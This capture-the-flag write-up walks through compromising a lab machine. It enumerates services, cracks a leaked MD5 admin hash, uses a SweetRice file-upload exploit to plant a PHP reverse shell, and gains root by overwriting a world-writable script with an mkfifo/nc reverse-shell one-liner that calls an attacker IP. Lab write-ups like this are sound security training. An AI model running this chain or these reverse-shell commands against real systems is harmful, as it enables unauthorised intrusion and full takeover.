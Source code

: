 Target: 10.10.160.79

## Enumeration:

nmap
```bash
$ nmap -sC -sV 10.10.160.79
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-16 11:03 PDT
Nmap scan report for 10.10.160.79
Host is up (0.22s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

gobuster
```bash
$ gobuster dir -u http://10.10.160.79 -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -z

/content              (Status: 301) [Size: 314] [--> http://10.10.160.79/content/]
```

## Foothold:

search for sweetrice exploits

[Exploit Link](https://www.exploit-db.com/exploits/40718)

http://10.10.160.79/content/inc/mysql_backup/
```sql
'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{
<snip>
s:5:\\"admin\\";
s:7:\\"manager\\";
s:6:\\"passwd\\";
s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";
<snip>
```

hashcat
```bash
$ hashcat -m 0 -o crack.txt '42f749ade7f9e195bf475f37a44cafcb' /usr/share/wordlists/rockyou.txt
> Password123
```

Loot:

manager:Password123

test creds to http://10.10.160.79/content/as/

[Exploit Link](https://www.exploit-db.com/exploits/40716)

edit 40716.py
```
host = '10.10.160.79/content'
username = 'manager'
password = 'Password123'
filename = 'php-reverse-shell.php5'
```

[Payload Link](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

run exploit
```bash
$ python 40716.py
```

open nc session
```bash
nc -lnvp 8888
```

open link http://10.10.160.79/content/attachment/php-reverse-shel.php5


## Lateral Movement:

## Priv Escalation:

```bash
$ cd/home/itguy
$ cat user.txt
<redacted>
```

```bash
$ sudo -l
<snip>
User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

```bash
$ ls -la 
<snip>
-rw-r--r-x   1 root root      47 Nov 29  2019 backup.pl
```

```bash
$ cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

```bash
$ ls -la /etc/ | grep 'copy.sh'
-rw-r--rwx   1 root root      81 Nov 29  2019 copy.sh
```

```bash
$ cat /etc/copy.sh

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

```bash
$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.4.181 5554 >/tmp/f" > /etc/copy.sh
```

open another nc session
```bash
$ nc -lnvp 5554
```

run on www-data
```bash
sudo /usr/bin/perl /home/itguy/backup.pl
```

run on root
```bash
$ cat /root/root.txt
<redacted>
```
